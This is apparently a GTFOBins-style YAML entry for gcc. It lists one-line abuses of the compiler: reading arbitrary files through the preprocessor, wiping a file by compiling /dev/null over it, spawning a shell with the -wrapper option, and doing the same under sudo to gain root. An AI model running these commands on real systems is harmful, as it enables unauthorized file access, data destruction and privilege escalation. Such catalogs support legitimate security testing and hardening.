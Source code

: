 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        gcc -x c -E "$LFILE"
  file-write:  # XXX this should be file-delete
    - code: |
        LFILE=file_to_delete
        gcc -xc /dev/null -o $LFILE
  shell:
    - code: gcc -wrapper /bin/sh,-s .
  sudo:
    - code: sudo gcc -wrapper /bin/sh,-s .
---
```

